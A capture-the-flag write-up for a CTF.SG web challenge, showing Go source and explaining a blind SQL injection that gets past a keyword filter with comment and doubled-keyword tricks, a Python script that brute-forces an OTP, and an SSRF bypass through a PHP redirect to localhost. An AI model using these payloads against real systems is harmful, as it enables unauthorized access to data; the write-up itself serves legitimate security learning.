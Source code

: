 # We know this all too well

> And you were tossing me the car keys, f\*\*\* the patriarchy...\
> \
> JekGarb is a taxi company in an alternative universe that is 50 times the size of google, controlling the world's ride hailing services. I got hold of some their source, can you tell me what's wrong?\
> \
> http://chals.ctf.sg:40301\
> \
> author: Gladiator

### OTP Verification

After we first register an account, we will quickly find that we won't be able to log in to our registered account yet - we need to verify our OTP first.

Let's take a look at how the verification is performed.

```go
func verifyHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	var otp data.UserAccount
	err := json.NewDecoder(r.Body).Decode(&otp)
	if err != nil {
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
	if logic.VerifyOTP(otp) == false {
		http.Error(w, "Failed to verify OTP", http.StatusBadRequest)
		return
	}
	fmt.Fprint(w, "Account Verified")
}
```

```go
func VerifyOTP(account data.UserAccount) bool {
	user, _ := data.GetUser(account.Username)
	if user == nil {
		return false
	}
	if account.Otp != user.Otp || account.Username != user.Username || config.CheckPasswordHash(account.Password, user.Password) == false {
		return false
	} else {
		data.SetVerified(account.Username)
	}
	return true
}
```

Hmm... no dice. Looks like the verification logic itself is sound, so we have to find our OTP through some other vulnerability. Since the rest of the functions require us to be authenticated, we are only left with the `/search` URL.

### Bypassing SQL Injection Protection

Sure enough, the MySQL query builder function looks like it's vulnerable to SQL injection. If we are able to control the `username` being substituted, we can escape out of the string.

```go
func MySqlQueryBuilderSearchUser(username string) string {
	return fmt.Sprintf("SELECT * FROM user WHERE username = '%s'", username)
}
```

The only problem is that spaces, `AND`, and `OR` are replaced with empty strings in our query.

```go
func MySqlRealEscapeString(query string) string {
	s := strings.TrimSpace(query)
	s = strings.ToLower(s)
	s = strings.Replace(s, " ", "", -1)
	s = strings.Replace(s, "and", "", -1)
	s = strings.Replace(s, "or", "", -1)
	return s
}
```

```go
func serachHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	username := r.URL.Query().Get("q")
	username = config.MySqlRealEscapeString(username)
	if logic.SearchByUsername(username) == false {
		http.Error(w, "User does not exists", http.StatusBadRequest)
		return
	}
	fmt.Fprint(w, username)
}
```

To bypass this, we make use of the fact that in MySQL, comments (`/**/`) can serve as spaces, and the above replacement is non-recursive.

Our payload would then be:

```
/search?q=socengexp'/**/AANDND/**/(SUBSTR(otp,<POSITION>,1))='<GUESS>
```

Which will be translated into the MySQL query:

```sql
SELECT * FROM user WHERE username = 'socengexp' AND (SUBSTR(otp,<POSITION>,1))='<GUESS>'
```

where `GUESS` can be varied to bruteforce the character at `POSITION` (and `socengexp` is my username :smile:)

Here's the script to find our OTP, though a custom SQLMap tamper script would probably work too.

```python
import requests, string

i = 1
result = ''
while True:
    found = False
    for char in string.ascii_letters + string.digits:
        r = requests.get(f"http://chals.ctf.sg:40301/search?q=socengexp'/**/AANDND/**/(SUBSTR(otp,{i},1))='" + char)
        
        if r.status_code != 400:
            print("Found " + char)
            result += char
            i += 1
            found = True
            break
            
    if not found:
        print("Not found")
        break

print(result)
```

With the OTP we found, we can verify and log in to the application.&#x20;

### Bypassing SSRF Protection

This gives us access to `/cornelia`, which performs a GET request to a URL of our choice.

```go
func CorneliaStreet(r *http.Request) http.Response {
	cleanUrl := config.ProcessGet(r)
	if cleanUrl == "" {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	resp, err := http.Get(cleanUrl)
	if err != nil {
		return http.Response{Status: "500 Internal Server Error", StatusCode: 500, Body: nil}
	}
	return *resp
}
```

This looks like it might be vulnerable to SSRF, but the following validation prevents us from specifying `localhost` or `127.0.0.1` etc. directly.

```go
func ProcessGet(r *http.Request) string {
	var host string
	inputurl := r.URL.Query().Get("url")
	u, err := url.Parse(inputurl)
	if err != nil {
		return ""
	}
	if strings.Contains(u.Host, ":") {
		host, _, _ = net.SplitHostPort(u.Host)
	} else {
		host = u.Host
	}
	if u.Scheme == "" {
		return ""
	}
	ips, _ := net.LookupIP(host)
	for _, ip := range ips {
		if ipv4 := ip.To4(); ipv4 != nil {
			if ipv4.String() == "127.0.0.1" {
				return ""
			}
		}
	}
	return retrieveUrl(r)
}
```

That's fine, since the server follows redirects. By redirecting to `localhost:8081/flag`, we can access the flag.

```php
<?php
    Header("Location: http://localhost:8081/flag");
?>
```

The flag is `CTFSG{All_T00_W3ll_T3n_M1nutes_V3rs1on_Taylors_Version}`

